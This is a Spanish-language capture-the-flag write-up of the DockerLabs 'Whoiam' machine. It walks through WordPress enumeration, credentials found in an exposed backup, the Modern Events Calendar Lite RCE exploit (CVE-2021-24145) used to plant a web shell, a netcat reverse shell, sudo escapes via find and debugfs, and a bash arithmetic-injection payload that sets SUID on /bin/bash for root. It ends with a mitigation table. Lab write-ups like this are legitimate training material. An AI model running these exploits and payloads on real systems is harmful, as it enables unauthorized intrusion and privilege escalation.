








# Whoiam — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Easy | **Target IP:** 172.18.0.2 | 

## Descripcion 

Laboratorio para practicar la explotación de WordPress mediante un plugin vulnerable (CVE-2021-24145) y escalada de privilegios con sudo (find).

## Attack chain

**Nmap → Web Enumeration → Fuzzing → Backup ZIP Discovery → Credential Disclosure → WordPress Admin Access → Modern Events Calendar Lite Exploitation → Reverse Shell → www-data Access → Sudo/find Abuse → rafa Access → Sudo/debugfs Abuse → ruben Access → Sudo Script Abuse → Bash SUID → Root**

### 1. Analisis y escaneo del objetivo.

```text
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/whoiam]
└─$ nmap -sV -sC -p- 172.18.0.2                                                                          
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-11 22:19 -0300
Nmap scan report for 172.18.0.2
Host is up (0.0000080s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-generator: WordPress 6.5.4
|_http-title: Whoiam
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: D2:05:EB:F4:B0:CF (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.19 seconds

```
Segun el resultado de nmap podemos verificar que tenemos unicamente el servicio web.



Continuamos con un gobuster ya que no tenemos informacion ni nada relevante en la pagina.

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/whoiam]
└─$ gobuster dir  -u http://172.18.0.2/  -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -x php,html,htm,txt,bak,old,zip,conf,config,log 
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.18.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,html,zip,config,htm,txt,bak,old,conf,log
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
wp-content           (Status: 301) [Size: 313] [--> http://172.18.0.2/wp-content/]
wp-admin             (Status: 301) [Size: 311] [--> http://172.18.0.2/wp-admin/]
wp-includes          (Status: 301) [Size: 314] [--> http://172.18.0.2/wp-includes/]
xmlrpc.php           (Status: 405) [Size: 42]
index.php            (Status: 301) [Size: 0] [--> http://172.18.0.2/]
wp-trackback.php     (Status: 200) [Size: 135]
backups              (Status: 301) [Size: 310] [--> http://172.18.0.2/backups/]
wp-login.php         (Status: 200) [Size: 4039]
license.txt          (Status: 200) [Size: 19915]
server-status        (Status: 403) [Size: 275]
readme.html          (Status: 200) [Size: 7401]
wp-config.php        (Status: 200) [Size: 0]
wp-signup.php        (Status: 302) [Size: 0] [--> http://172.18.0.2/wp-login.php?action=register]
index.php            (Status: 301) [Size: 0] [--> http://172.18.0.2/]
Progress: 685091 / 685091 (100.00%)
===============================================================
Finished
===============================================================

```
Encontramos entre los mas importantes `http://172.18.0.2/backups/` y `http://172.18.0.2/wp-admin/`

Ingresamos a `http://172.18.0.2/backups/` y encontramos el siguiente archivo 



Lo descargamos, descomprimimos y tenemos lo siguiente

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/whoiam]
└─$ unzip databaseback2may.zip 
Archive:  databaseback2may.zip
  inflating: 29DBMay                 
                                                                                                                             
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/whoiam]
└─$ cat 29DBMay              
| Username  |         Password        |
|-----------|-------------------------|
| developer | 2wmy3KrGDRD%RsA7Ty5n71L^|
|-----------|-------------------------|

```

## 2. Ingreso y conexion al servidor.

Ingresamos al panel de admin con los datos que conseguimos anteriormente. 



Confirmamos que las credenciales son las correctas ya que podemos ingresar.



Buscamos plugins instalados con `wpscan`

```text
                                                                                                                             
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/whoiam]
└─$ wpscan --url http://172.18.0.2/ --enumerate p 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

                  WordPress Security Scanner
                         Version 4.1.0
                    An Automattic endeavor
                    https://automattic.com
_______________________________________________________________

[+] URL: http://172.18.0.2/ [172.18.0.2]
[+] Started: Sun Oct 11 22:41:49 2026
[+] Command Line: wpscan --url http://172.18.0.2/ --enumerate p
[+] Hostname: Kaotic

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.58 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://172.18.0.2/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://172.18.0.2/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://172.18.0.2/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://172.18.0.2/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.5.4 identified (Insecure, released on 2024-06-05).
 | Found By: Rss Generator (Passive Detection)
 |  - http://172.18.0.2/index.php/feed/, <generator>https://wordpress.org/?v=6.5.4</generator>
 | Confirmed By: Rss Generator (Passive Detection)
 |  - http://172.18.0.2/index.php/comments/feed/, <generator>https://wordpress.org/?v=6.5.4</generator>

[+] WordPress theme in use: twentytwentyfour
 | Location: http://172.18.0.2/wp-content/themes/twentytwentyfour/
 | Last Updated: 2026-08-19 3:00am GMT (1 month ago, per WordPress.org)
 | Active Installs: 500,000 (per WordPress.org)
 | Readme: http://172.18.0.2/wp-content/themes/twentytwentyfour/readme.txt
 | [!] The version is out of date, the latest version is 1.5
 | [!] Directory listing is enabled
 | Style URL: http://172.18.0.2/wp-content/themes/twentytwentyfour/style.css
 | Style Name: Twenty Twenty-Four
 | Style URI: https://wordpress.org/themes/twentytwentyfour/
 | Description: Twenty Twenty-Four is designed to be flexible, versatile and applicable to any website. Its collecti...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://172.18.0.2/wp-content/themes/twentytwentyfour/style.css, Match: 'Version: 1.1'

[+] Enumerating Most Popular Plugins (via Passive and Aggressive Methods)

[+] modern-events-calendar-lite
 | Location: http://172.18.0.2/wp-content/plugins/modern-events-calendar-lite/
 | Last Updated: 2022-05-10 9:06pm GMT (4 years ago)
 | Readme: http://172.18.0.2/wp-content/plugins/modern-events-calendar-lite/readme.txt
 | [!] The version is out of date, the latest version is 6.5.6
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 5.16.2 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://172.18.0.2/wp-content/plugins/modern-events-calendar-lite/readme.txt
 | Confirmed By: Change Log (Aggressive Detection)
 |  - http://172.18.0.2/wp-content/plugins/modern-events-calendar-lite/changelog.txt, Match: '5.16.2'

[+] akismet
 | Location: http://172.18.0.2/wp-content/plugins/akismet/
 | Last Updated: 2026-08-18 11:42pm GMT (1 month ago, per WordPress.org)
 | Active Installs: 5,000,000 (per WordPress.org)
 | Readme: http://172.18.0.2/wp-content/plugins/akismet/readme.txt
 | [!] The version is out of date, the latest version is 5.7.2
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://172.18.0.2/wp-content/plugins/akismet/, status: 200
 |
 | Version: 5.3.2 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://172.18.0.2/wp-content/plugins/akismet/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://172.18.0.2/wp-content/plugins/akismet/readme.txt
 Checking Known Locations - Time: 00:00:02 <===========================================> (1499 / 1499) 100.00% Time: 00:00:02
[i] 2 plugin(s) Identified.
[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
[+] Finished: Sun Oct 11 22:41:56 2026
[+] Requests Done: 1542
[+] Cached Requests: 8
[+] Most response codes received: 404: 1513, 200: 28, 302: 1
[+] Data Sent: 414.82 KB
[+] Data Received: 621.371 KB
[+] Memory used: 324.852 MB
[+] Elapsed time: 00:00:06


```
O tambien podemos visualizarlos desde el panel de admnistrador. 



Buscamos con `searchsploit` y encontramos vulnerable el plugin de `modern events calendar` lo descargamos y lo desplegamos, llenamos con los datos necesarios 

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/whoiam]
└─$ searchsploit modern events calendar
------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                             |  Path
------------------------------------------------------------------------------------------- ---------------------------------
Wordpress Plugin Modern Events Calendar 5.16.2 - Event export (Unauthenticated)            | php/webapps/50084.py
Wordpress Plugin Modern Events Calendar 5.16.2 - Remote Code Execution (Authenticated)     | php/webapps/50082.py
WordPress Plugin Modern Events Calendar V 6.1 - SQL Injection (Unauthenticated)            | php/webapps/50687.py
------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                             
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/whoiam]
└─$ searchsploit -m php/webapps/50082.py
  Exploit: Wordpress Plugin Modern Events Calendar 5.16.2 - Remote Code Execution (Authenticated)
      URL: https://www.exploit-db.com/exploits/50082
     Path: /usr/share/exploitdb/exploits/php/webapps/50082.py
    Codes: CVE-2021-24145
 Verified: False
File Type: ASCII text, with very long lines (18082)
Copied to: /home/mariano/Downloads/dockerlabs-machines/02-faciles/whoiam/50082.py


                                                                                                                             
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/whoiam]
└─$ ls
29DBMay  50082.py  50084.py  auto_deploy.sh  databaseback2may.zip  shell-plugin  shell-plugin.zip  whoiam.tar  whoiam.zip
                                                                                                                             
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/whoiam]
└─$ python3 50082.py -h                       
/home/mariano/Downloads/dockerlabs-machines/02-faciles/whoiam/50082.py:25: SyntaxWarning: "\ " is an invalid escape sequence. Such sequences will not work in the future. Did you mean "\\ "? A raw string is also an option.
  / ___\ \   / / ____|   |___ \ / _ \___ \/ |    |___ \| || | / | || || ___|

  ______     _______     ____   ___ ____  _      ____  _  _   _ _  _  ____
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |    |___ \| || | / | || || ___|
| |    \ \ / /|  _| _____ __) | | | |__) | |_____ __) | || |_| | || ||___ | |___  \ V / | |__|_____/ __/| |_| / __/| |_____/ __/|__   _| |__   _|__) |
 \____|  \_/  |_____|   |_____|\___/_____|_|    |_____|  |_| |_|  |_||____/

                * Wordpress Plugin Modern Events Calendar Lite RCE
                * @Hacker5preme


usage: 50082.py [-h] [-T IP] [-P PORT] [-U PATH] [-u USERNAME] [-p PASSWORD]

Wordpress Plugin Modern Events Calenar Lite RCE (Authenticated)

options:
  -h, --help            show this help message and exit
  -T, --IP IP
  -P, --PORT PORT
  -U, --PATH PATH
  -u, --USERNAME USERNAME
  -p, --PASSWORD PASSWORD
                                                                                                                             
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/whoiam]
└─$ python3 50082.py -T 172.18.0.2 -P 80 -U / -u developer -p '2wmy3KrGDRD%RsA7Ty5n71L^'
/home/mariano/Downloads/dockerlabs-machines/02-faciles/whoiam/50082.py:25: SyntaxWarning: "\ " is an invalid escape sequence. Such sequences will not work in the future. Did you mean "\\ "? A raw string is also an option.
  / ___\ \   / / ____|   |___ \ / _ \___ \/ |    |___ \| || | / | || || ___|

  ______     _______     ____   ___ ____  _      ____  _  _   _ _  _  ____
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |    |___ \| || | / | || || ___|
| |    \ \ / /|  _| _____ __) | | | |__) | |_____ __) | || |_| | || ||___ | |___  \ V / | |__|_____/ __/| |_| / __/| |_____/ __/|__   _| |__   _|__) |
 \____|  \_/  |_____|   |_____|\___/_____|_|    |_____|  |_| |_|  |_||____/

                * Wordpress Plugin Modern Events Calendar Lite RCE
                * @Hacker5preme


[+] Authentication successfull !

[+] Shell Uploaded to: http://172.18.0.2:80//wp-content/uploads/shell.php


```
Conseguimos acceso y continuamos con la escalada de privilegios.


## 3. Escalada de privilegios

Ingresamos con el usuario `[anonymous](http://172.18.0.2:80//wp-content/uploads/shell.php)` y nos ponemos en escucha con netcat 



Conseguimos la conexion y establecemos la terminal

```text
                                                                                                                             
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/whoiam]
└─$ nc -lvnp 4444                                     
listening on [any] 4444 ...
connect to [172.18.0.1] from (UNKNOWN) [172.18.0.2] 36584
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@12a5d3fc50ae:/var/www/html/wp-content/uploads$ script /dev/null -c bash
<w/html/wp-content/uploads$ script /dev/null -c bash    
Script started, output log file is '/dev/null'.
www-data@12a5d3fc50ae:/var/www/html/wp-content/uploads$ export TERM=xterm
export TERM=xterm
www-data@12a5d3fc50ae:/var/www/html/wp-content/uploads$ 

```
Escalamos privilegios a `rafa`
```
www-data@12a5d3fc50ae:/var/www/html/wp-content/uploads$ sudo -l
sudo -l
Matching Defaults entries for www-data on 12a5d3fc50ae:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on 12a5d3fc50ae:
    (rafa) NOPASSWD: /usr/bin/find
www-data@12a5d3fc50ae:/var/www/html/wp-content/uploads$ sudo -u rafa /usr/bin/find . -exec /bin/bash -p \; -quit
nd . -exec /bin/bash -p \; -quit
rafa@12a5d3fc50ae:/var/www/html/wp-content/uploads$  

```
Escalamos a `ruben`

```
rafa@12a5d3fc50ae:/var/www/html/wp-content/uploads$ sudo -l
sudo -l
Matching Defaults entries for rafa on 12a5d3fc50ae:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User rafa may run the following commands on 12a5d3fc50ae:
    (ruben) NOPASSWD: /usr/sbin/debugfs
rafa@12a5d3fc50ae:/var/www/html/wp-content/uploads$ sudo -u ruben /usr/sbin/debugfs                
gfso -u ruben /usr/sbin/debug
debugfs 1.47.0 (5-Feb-2023)
debugfs:  !/bin/bash -p
!/bin/bash -p
ruben@12a5d3fc50ae:/var/www/html/wp-content/uploads$ 

```

Ganamos el acceso y procedemos a establecer la terminal. El script usa [[ $num -eq 42 ]], y como -eq fuerza una evaluación aritmética sobre la entrada del usuario, bash ejecuta cualquier $(comando) que se inyecte dentro de esa cadena — y al correr el script como root vía sudo, ese comando también se ejecuta como root, permitiendo escalar privilegios.

```
ruben@12a5d3fc50ae:/var/www/html/wp-content/uploads$ sudo -l                                     
sudo -l
Matching Defaults entries for ruben on 12a5d3fc50ae:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User ruben may run the following commands on 12a5d3fc50ae:
    (ALL) NOPASSWD: /bin/bash /opt/penguin.sh
ruben@12a5d3fc50ae:/var/www/html/wp-content/uploads$ sudo /bin/bash /opt/penguin.sh
.sho /bin/bash /opt/penguin.
ruben@whoiam:/opt$ cat penguin.sh
#!/bin/bash

read -rp "Enter guess: " num

if [[ $num -eq 42 ]]
then
  echo "Correct"
else
  echo "Wrong"
fi
ruben@whoiam:/opt$
Enter guess: a[$(chmod u+s /bin/bash>&2)]+42    
a[$(chmod u+s /bin/bash>&2)]+42
Correct
ruben@12a5d3fc50ae:/var/www/html/wp-content/uploads$ /bin/bash -p
/bin/bash -p
bash-5.2# whoami
whoami
root
bash-5.2# id
id
uid=1002(ruben) gid=1002(ruben) euid=0(root) groups=1002(ruben),100(users)
bash-5.2# 

```

## Alternativa

En lugar de utilizar el CVE podriamos subir el archivo reverse shell y obtener acceso. 

Comprimimos la shell en una carperpeta y comprimos en .zip 

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/whoiam]
└─$ ls
29DBMay  50082.py  50084.py  auto_deploy.sh  databaseback2may.zip  shell-plugin  whoiam.tar  whoiam.zip
                                                                                                                             
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/whoiam]
└─$ zip -r shell-plugin.zip shell-plugin 
  adding: shell-plugin/ (stored 0%)
  adding: shell-plugin/php-reverse-shell.php (deflated 59%)
                                                                                                                             
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/whoiam]
└─$ ls
29DBMay  50082.py  50084.py  auto_deploy.sh  databaseback2may.zip  shell-plugin  shell-plugin.zip  whoiam.tar  whoiam.zip

```
Subimos el archivo 



Nos ponemos en escucha en netcat 

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/whoiam]
└─$ nc -lvnp 4444
listening on [any] 4444 ...

```

Y le damos a instalar 




Obtenemos acceso nuevamente y de ahi podriamos realizar mismo procedimiento que antes, establecer terminal y escalar privilegios de igual forma.


# Conclusión

A partir del escaneo inicial con **Nmap**, se identificó un servidor web como principal servicio expuesto en la máquina. Al ingresar al sitio, no se encontraron elementos relevantes, por lo que se realizó una enumeración mediante **fuzzing**, descubriendo distintas rutas relacionadas con WordPress, entre ellas el panel de administración y un directorio llamado `backups`.

Al revisar el directorio `backups`, se encontró un archivo ZIP que fue descargado y descomprimido. En su contenido se descubrieron las credenciales del usuario `developer`, que permitieron iniciar sesión en el panel de administración de WordPress.

Una vez dentro, se aprovechó una vulnerabilidad del plugin **Modern Events Calendar Lite**, versión `5.16.2`, para obtener una **reverse shell** y conseguir acceso al sistema como el usuario `www-data`.

Posteriormente, mediante la enumeración de permisos con `sudo -l`, se identificó que `www-data` podía ejecutar `/usr/bin/find` como el usuario `rafa`. Aprovechando la capacidad de esta herramienta para ejecutar comandos, se obtuvo una shell con los privilegios de dicho usuario.

Luego, se comprobó que `rafa` podía ejecutar `/usr/sbin/debugfs` como el usuario `ruben`. Mediante la funcionalidad interactiva de `debugfs`, se invocó una shell y se consiguió acceso como `ruben`.

Finalmente, se descubrió que `ruben` podía ejecutar el script `/opt/penguin.sh` como cualquier usuario mediante `sudo`. El script utilizaba una comparación aritmética de Bash sobre una entrada controlada por el usuario, lo que permitió ejecutar un comando para habilitar el bit **SUID** en `/bin/bash`. Al ejecutar posteriormente `/bin/bash -p`, se obtuvo una shell con privilegios de **root**, completando la escalada.


| Vulnerabilidad / Técnica | Impacto | Mitigación |
|---|---|---|
| **Backup ZIP accesible desde la web** | Expone información sensible, incluidas credenciales. | Restringir el acceso a los backups y evitar almacenar archivos sensibles en directorios públicos. |
| **Credenciales expuestas** | Permiten acceder al panel de administración de WordPress. | No almacenar contraseñas en backups accesibles y utilizar credenciales únicas y seguras. |
| **Plugin Modern Events Calendar Lite vulnerable** | Puede permitir la explotación de WordPress y obtener acceso al servidor, según la vulnerabilidad utilizada. | Actualizar el plugin a una versión corregida y verificar el CVE específico explotado. |
| **Permisos de `sudo` sobre `find`** | Permiten ejecutar comandos con los privilegios de otro usuario y escalar a `rafa`. | Restringir las reglas de `sudo` y evitar autorizar herramientas que permitan ejecutar comandos arbitrarios. |
